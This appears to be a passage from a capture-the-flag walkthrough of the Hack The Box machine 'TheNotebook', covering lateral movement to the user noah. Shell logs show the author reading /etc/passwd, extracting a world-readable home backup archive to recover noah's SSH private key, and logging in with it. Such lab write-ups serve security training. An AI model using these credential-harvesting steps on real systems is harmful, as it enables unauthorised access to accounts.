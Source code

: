 ## Lateral Movement to noah
Enumerated local users:
```bash
www-data@thenotebook:/$ cat /etc/passwd | grep -v nologin
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
lxd:x:105:65534::/var/lib/lxd/:/bin/false
pollinate:x:109:1::/var/cache/pollinate:/bin/false
noah:x:1000:1000:Noah:/home/noah:/bin/bash
```

Enumerated backup files:
```bash
www-data@thenotebook:/var/backups$ ls -al
total 60
drwxr-xr-x  2 root root  4096 Apr 30 15:01 .
drwxr-xr-x 14 root root  4096 Feb 12 06:52 ..
-rw-r--r--  1 root root 33252 Feb 24 08:53 apt.extended_states.0
-rw-r--r--  1 root root  3609 Feb 23 08:58 apt.extended_states.1.gz
-rw-r--r--  1 root root  3621 Feb 12 06:52 apt.extended_states.2.gz
-rw-r--r--  1 root root  4373 Feb 17 09:02 home.tar.gz
```

Excessive file permission on `home.tar.gz` allowed to copy the archive within `/tmp` and extract its contents, leaking `noah` ssh keys:
```bash
www-data@thenotebook:/var/backups$ cp home.tar.gz /tmp
www-data@thenotebook:/var/backups$ cd /tmp
www-data@thenotebook:/tmp$ gunzip home.tar.gz
www-data@thenotebook:/tmp$ tar -xf home.tar
www-data@thenotebook:/tmp$ cd home
www-data@thenotebook:/tmp/home$ ls
noah
www-data@thenotebook:/tmp/home$ cd noah/
www-data@thenotebook:/tmp/home/noah$ ls -al
total 32
drwxr-xr-x 5 www-data www-data 4096 Feb 17 09:02 .
drwxr-xr-x 3 www-data www-data 4096 Feb 12 06:24 ..
-rw-r--r-- 1 www-data www-data  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 www-data www-data 3771 Apr  4  2018 .bashrc
drwx------ 2 www-data www-data 4096 Feb 16 10:47 .cache
drwx------ 3 www-data www-data 4096 Feb 12 06:25 .gnupg
-rw-r--r-- 1 www-data www-data  807 Apr  4  2018 .profile
drwx------ 2 www-data www-data 4096 Feb 17 08:59 .ssh
www-data@thenotebook:/tmp/home/noah$ cd .ssh
www-data@thenotebook:/tmp/home/noah/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
```

Noah private key was then used to access the box:
```bash
┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/loot]
└─$ ssh noah@10.10.10.230 -i noah.key
...
noah@thenotebook:~$ id
uid=1000(noah) gid=1000(noah) groups=1000(noah)
```

